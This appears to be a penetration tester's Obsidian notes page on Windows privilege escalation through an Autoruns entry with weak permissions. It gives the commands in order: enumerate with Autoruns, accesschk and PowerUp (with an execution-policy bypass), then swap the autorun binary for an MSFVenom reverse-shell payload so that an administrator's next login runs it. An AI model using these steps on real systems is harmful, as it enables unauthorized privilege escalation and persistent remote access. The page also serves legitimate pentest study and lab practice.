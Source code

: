 Need RDP access

```
wget https://download.sysinternals.com/files/Autoruns.zip
```

**Detection**

Transfer over Autoruns.exe from kali to target and run it.

[[4._File Transfers]]

```batch - windows
Autoruns.exe
```

In this example, say we found "My Program" entry is pointing to "C:\Program Files\Autorun Program\program.exe"

**Exploitation**

Use accesschk

```batch - windows
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```


The output states that "Everyone" user group has "FILE_ALL_ACCESS" permission on the program.exe file.

#### PowrUp.ps1

```batch - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

![[Pasted image 20220207100104.png]]

[[1._Reverse Shells (WIN)#MSFVenom]]

Name reverse shell as "program.exe"

![[Python#Server]]

Transfer file to victim.

Replace our malicious program.exe with the original found in "C:\Program Files\Autorun Program"

Now, an elevated privileged user will have to login and click "Run" before we can get our shell:

![[Pasted image 20220207101013.png]]

